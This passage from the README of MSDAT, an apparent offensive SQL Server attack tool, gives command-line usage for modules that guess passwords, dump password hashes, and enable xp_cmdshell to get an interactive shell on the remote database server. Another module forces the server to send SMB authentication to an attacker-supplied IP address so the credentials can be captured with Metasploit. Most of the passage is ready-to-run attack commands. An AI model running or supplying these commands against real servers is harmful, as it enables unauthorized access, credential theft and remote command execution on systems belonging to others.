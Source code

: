 *--force-retry* option allows to test multiple passwords for each user without ask you

You can specify your own account file with the *--accounts-file* option:

```
./msdat.py passwordguesser -s $SERVER -p $PORT --search --accounts-file accounts.txt --force-retry
```

## 

## *passwordstealer* module

To dump hashed passwords :

```
./msdat.py passwordstealer -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --dump --save-to-file test.txt
```

This modules has been tested on SQL Server 2000, 2005, 2008 and 2014.

## 

## *xpcmdshell* module

To execute system commands thanks to *xp_cmdshell* (https://msdn.microsoft.com/en-us/library/ms190693.aspx):

```
./msdat.py xpcmdshell -s $SERVER -p $PORT -U $USER -P $PASSWORD --shell
```

This previous command give you an interactive shell on the remote database server.

If *xp_cmdshell* is not enabled, the *--enable-xpcmdshell* can be used in this module to activate it:

```
./msdat.py xpcmdshell -s $SERVER -p $PORT -U $USER -P $PASSWORD --enable-xpcmdshell --disable-xpcmdshell --disable-xpcmdshell --shell
```

The *--enable-xpcmdshell* option enables *xp_cmdshell* if it is not enabled (not enabled by default).

The *--disable-xpcmdshell* option disables *xp_cmdshell* if this one is enabled.

## 

## *smbauthcapture* module

Thanks to this module, you can capture a SMB authentication:

```
./msdat.py smbauthcapture -s $SERVER -p $PORT -U $USER -P $PASSWORD -d $DATABASE --capture $MY_IP_ADDRESS --share-name SHARE
```

To capture the SMB authentication, the *auxiliary/server/capture/smb* (http://www.rapid7.com/db/modules/auxiliary/server/capture/smb) module of metasploit could be used:
